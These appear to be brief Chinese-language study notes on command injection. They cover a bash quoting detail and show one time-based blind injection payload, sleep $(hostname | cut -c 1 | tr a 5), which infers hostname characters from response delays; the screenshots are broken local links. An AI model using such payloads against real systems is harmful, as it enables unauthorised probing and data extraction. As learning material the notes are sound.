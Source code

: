 # 命令注入

bash中不能用反斜杠转义单引号

## 1.命令注入中的“盲注” 

## sleep $(hostname | cut -c 1 | tr a 5)

![image-20220802115338278](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220802115338278.png)

![image-20220802115351585](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220802115351585.png)

![image-20220802115218422](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220802115218422.png)

![image-20220802115243918](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220802115243918.png)
